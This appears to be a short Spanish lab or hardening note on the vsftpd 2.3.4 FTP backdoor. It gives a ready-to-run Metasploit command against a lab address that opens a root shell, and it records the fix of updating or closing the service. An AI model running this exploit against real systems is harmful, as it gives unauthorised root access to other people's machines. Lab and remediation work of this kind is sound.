 # 7. FTP (vsftpd 2.3.4, puerto 21)

## Comando
# Exploit vsftpd 2.3.4 backdoor
# msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOST 192.168.10.10; run; exit"

## Por qué
vsftpd 2.3.4 contiene backdoor que abre shell.

## Antes / Después
- Antes: shell root abierta al conectar.  
- Después: servicio actualizado o cerrado.

## Resultado esperado
- Shell obtenida en laboratorio.
